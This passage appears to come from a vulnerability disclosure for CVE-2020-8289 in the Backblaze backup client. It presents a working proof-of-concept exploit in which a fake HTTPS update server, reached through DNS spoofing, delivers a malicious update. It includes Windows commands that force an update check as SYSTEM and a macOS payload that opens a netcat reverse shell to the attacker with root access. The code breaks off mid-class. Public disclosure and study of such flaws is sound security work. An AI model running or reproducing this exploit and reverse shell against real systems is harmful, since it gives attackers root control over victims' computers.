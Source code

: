 ```python
        self.wfile.write("HTTP/1.1 200\r\n")
        self.end_headers()
        self.rfile = self.connection.makefile("rb", self.rbufsize)
        self.wfile = self.connection.makefile("wb", self.wbufsize)
        self.close_connection = 0

httpd = HTTPServer(("localhost", 443), Handler)
httpd.socket = ssl.wrap_socket(httpd.socket, certfile="server.pem",
                               server_side=True)
httpd.serve_forever()
```

Once the code above is running, wait. The victim's client checks for an update every couple of hours. 

If you'd like to test the PoC without waiting, you can run the following commands as `SYSTEM` (using `psexec`, for example) on the victim's system to force the update check: 

* `del %ProgramData%\Backblaze\bzdata\bzupdates\bzautoupdate_2_hour_lock.lck`
* `bztransmit.exe -fetchclientversionxml`
* `bztransmit.exe -downloadautoupdateifappropriate`

## Proof of Concept (macOS)
**Video:** [https://youtu.be/ILPP1Ky5nuY](https://youtu.be/ILPP1Ky5nuY)

This proof of concept is for the macOS client. In the real world, an attacker would send a spoofed DNS response to the victim to point `ca000.backblaze.com` to the attacker's IP, but for PoC purposes, we're attacking from the same system as the victim and exploiting the compromised Backblaze service to create a remote-shell back to the attacker, thus giving the would-be-remote attacker root access.

```python
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

"""Proof-of-concept exploit for CVE-2020-8289 for macOS."""

__author__ = "geffner@gmail.com (Jason Geffner)"
__version__ = "1.0"


from http.server import HTTPServer, SimpleHTTPRequestHandler
import cgi
import ssl

attacker_ip = "localhost"
attacker_port = 12345

reverse_shell = "mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc " + \
                f"{attacker_ip} {attacker_port} >/tmp/f"
bzmagicpat = "bzbzbzbzbzxaxbxcxdxexfxgxhxixjxkxlxmxnxoxpxqxrxsxtxuxvxwxxxy" + \
             "xzgromitxxkublerrossxxskiepicxxnukepavex"
payload = reverse_shell + "\n" + bzmagicpat
payload += "A" * (50304 - len(payload))

class Handler(SimpleHTTPRequestHandler):
```